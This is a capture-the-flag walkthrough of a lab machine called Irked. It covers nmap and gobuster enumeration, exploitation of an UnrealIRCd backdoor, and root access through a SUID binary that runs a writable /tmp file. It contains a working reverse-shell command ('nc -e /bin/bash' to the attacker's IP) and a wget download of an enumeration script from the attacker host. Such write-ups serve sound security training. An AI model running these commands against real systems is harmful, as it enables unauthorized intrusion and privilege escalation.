





# Irked Writeup w/o Metasploit


## Reconnaissance <a id="22e9"></a>

First thing first, we run a quick initial nmap scan to see which ports are open and which services are running on those ports.

```text
nmap -sC -sV -O -oA initial 10.10.10.117
```

* **-sC**: run default nmap scripts
* **-sV**: detect service version
* **-O**: detect OS
* **-oA**: output all formats and store in file _initial_

We get back the following result showing that nine ports are open:

* **Port 22:** running OpenSSH 6.7p1
* **Port 80**: running Apache httpd 2.4.10
* **Port 111:** running rpcbind 2–4



Before we start investigating these ports, let’s run more comprehensive nmap scans in the background to make sure we cover all bases.

Let’s run an nmap scan that covers all ports.

```text
nmap -sC -sV -O -p- -oA full 10.10.10.117
```

We get back the following result. We have 4 other ports that are open.

* Ports 6697, 8067 & 65534: running UnrealIRCd
* Port 51881: running an RPC service


Similarly, we run an nmap scan with the **-sU** flag enabled to run a UDP scan.

```text
nmap -sU -O -p- -oA udp 10.10.10.117
```

We get back the following result.


Two ports are open.

* **Port 111**: running rpcbind
* **Port 5353**: running zeroconf

## Enumeration <a id="6df7"></a>

Let’s start with enumerating port 80. Visit the machine’s IP address in the browser. We get back the following page.


Let’s view the page source \(right click &gt; View Page Source\) to see if that gives us any extra information.



Nope. Next, we run gobuster to enumerate directories.

```text
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.117
```



The /manual directory leads us to the default Apache HTTP server page.



Another dead end. Let’s move on to other ports. Ports 22 and 111 running OpenSSH 6.7p1 and rpcbind 2–4 don’t look promising. Ports 6697, 8067 & 65534 are running UnrealIRCd. A version of this service was vulnerable to a backdoor command execution.

Let’s see if there are any nmap scripts that check for this vulnerability.


Great! Viewing the [documentation](https://nmap.org/nsedoc/scripts/irc-unrealircd-backdoor.html) tells us that not only can nmap detect it, but it can also be used to start a netcat listener that would give us a shell on the system.

First, run an nmap scan to see which of these ports are vulnerable to the backdoor.

```text
nmap -p 6697,8067,65534 --script irc-unrealircd-backdoor 10.10.10.117
```


Port 8067 is vulnerable!

## Gaining an Initial Foothold <a id="e9bb"></a>

The next obvious step would be to get a reverse shell on the machine by exploiting the UnrealIRCd backdoor vulnerability. After attempting to do that, I spent an hour trying to figure out why neither my netcat reverse or bind shells are not working. It turns out that if you add the flag “-n” which stands for “do not do any DNS or service lookups on any specified address”, the shell doesn’t work. I’m not sure why. I’ll update this blog when I figure it out.

For now, set up a listener on the attack machine.

```text
nc -nlvp 4444
```

Send a reverse shell to our listener from the target machine.

```text
nmap -p 8067 --script=irc-unrealircd-backdoor --script-args=irc-unrealircd-backdoor.command="nc -e /bin/bash 10.10.14.6 4444"  10.10.10.117
```

We have a shell!


Let’s upgrade it to a better shell.

```text
python -c 'import pty; pty.spawn("/bin/bash")'
```

This gives us a partially interactive bash shell. To get a fully interactive shell, background the session \(CTRL+ Z\) and run the following in your terminal which tells your terminal to pass keyboard shortcuts to the shell.

```text
stty raw -echo
```

Once that is done, run the command “fg” to bring netcat back to the foreground.

Let’s see if we have enough privileges to get the user.txt flag.


We don’t. We need to escalate privileges.

## Privilege Escalation <a id="7076"></a>

Let’s transfer the LinEnum script from our attack machine to the target machine.

In the attack machine, start up a server in the same directory that the script resides in.

```text
python -m SimpleHTTPServer 5555
```

In the target machine download the LinEnum script.

```text
cd /tmp
wget http://10.10.14.6:5555/LinEnum.sh
```

Give it execute privileges.

```text
chmod +x LinEnum.sh
```

Run the script.

```text
./LinEnum.sh
```

After sifting through all the output from the script, we notice the following file which has the SUID bit set.


Let’s try and execute the file to see what it outputs.

```text
cd /usr/bin
viewuser
```

We get back the following result.


It seems to be running a file /tmp/listusers, however, the file does not exist. Since the SUID bit is set for this file, it will execute with the level of privilege that matches the user who owns the file. In this case, the file is owned by root, so the file will execute with root privileges.

It’s in the /tmp directory, which we have access to, so let’s create the file and have it run a bash shell.

```text
echo "bash" > /tmp/listusers
```

When we execute the file, we’ll get a bash shell with root privileges!


Grab the user.txt and root.txt flags.


## Extra Content <a id="e051"></a>

After rooting the machine, I reviewed other writeups to see if there are different ways to solve this machine. It turns out that there is a .backup file that contains a stenography challenge.


We can use the password stored in the file to extract information from the irked.jpg image on the website. In order to do that, first download the steganography program that is used to hide data in images.

```text
apt-get install steghide
```

Then download the image from the website and run the tool to get the hidden file.

```text
steghide extract -sf irked.jpg
```

* **-sf**: the file that contains the embedded data

The password is the one in the .backup file. It outputs the hidden file pass.txt.


We’ll use that password to ssh into djmardov’s machine.

```text
ssh djmardov@10.10.10.117
```



Now that we have djmardov privileges, we can get the user.txt file. From there, we need to escalate privileges using the SUID misconfiguration we exploited above.

## Lessons Learned <a id="244b"></a>

We exploited two vulnerabilities to get root level access on the machine.

1. A vulnerable service UnrealIRCd that contained a backdoor command execution vulnerability. This could have been easily avoided if the patched version was installed.
2. A misconfigured SUID that allowed us to escalate privileges. This is a common attack vector. When setting the SUID flag, administrators should carefully analyze their SUID/GUID applications to determine if they legitimately require elevated permissions. In my case, as a non-privileged user, I had full rwx privileges on the file that was being executed by a binary with the SUID bit set.

